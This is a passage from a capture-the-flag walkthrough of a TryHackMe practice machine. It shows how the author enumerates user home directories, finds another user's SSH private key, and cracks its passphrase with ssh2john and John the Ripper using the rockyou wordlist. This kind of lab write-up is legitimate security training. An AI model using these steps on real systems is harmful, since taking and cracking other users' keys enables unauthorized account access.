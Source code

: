 ```
jan@basic2:~$ whoami
jan
```

### Tasks 8-11
We'll need to further enumerate the machine to find any vectors for privilege escalation. 

Let's look around and see what we can find. 
```
jan@basic2:~$ ls -la
total 12
drwxr-xr-x 2 root root 4096 Apr 23  2018 .
drwxr-xr-x 4 root root 4096 Apr 19  2018 ..
-rw------- 1 root jan    47 Apr 23  2018 .lesshst
```
```
jan@basic2:~$ cd ..
jan@basic2:/home$ ls
jan  kay
jan@basic2:/home$ cd kay
jan@basic2:/home/kay$ ls -la
total 48
drwxr-xr-x 5 kay  kay  4096 Apr 23  2018 .
drwxr-xr-x 4 root root 4096 Apr 19  2018 ..
-rw------- 1 kay  kay   756 Apr 23  2018 .bash_history
-rw-r--r-- 1 kay  kay   220 Apr 17  2018 .bash_logout
-rw-r--r-- 1 kay  kay  3771 Apr 17  2018 .bashrc
drwx------ 2 kay  kay  4096 Apr 17  2018 .cache
-rw------- 1 root kay   119 Apr 23  2018 .lesshst
drwxrwxr-x 2 kay  kay  4096 Apr 23  2018 .nano
-rw------- 1 kay  kay    57 Apr 23  2018 pass.bak
-rw-r--r-- 1 kay  kay   655 Apr 17  2018 .profile
drwxr-xr-x 2 kay  kay  4096 Apr 23  2018 .ssh
-rw-r--r-- 1 kay  kay     0 Apr 17  2018 .sudo_as_admin_successful
-rw------- 1 root kay   538 Apr 23  2018 .viminfo
```

Kay's files look promising! Let's continue to look through. 
```
jan@basic2:/home/kay$ cd .ssh
jan@basic2:/home/kay/.ssh$ ls
authorized_keys  id_rsa  id_rsa.pub 
```
Looking in the `.ssh` folder we can see there is Kay's public key. We can copy the key and attempt to crack it using **John the Ripper**, however, we'll need to specifically use **ssh2john** first. This is because we need to convert the id_rsa file to hash format so we can use it with **john**. 

We'll use the following command to convert id_rsa to hash format (my file location may be different from yours. I'm using the THM AttackBox for this, so it might be different on Kali or you'll need to install it): 

`python3 /opt/john/ssh2john.py id_rsa > id_rsa.hash`

Now we can run **john**:
```
john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash 

<password here>          (id_rsa)
1g 0:00:00:09 DONE (2022-03-12 06:51) 0.1086g/s 1558Kp/s 1558Kc/s 
Session completed. 
```
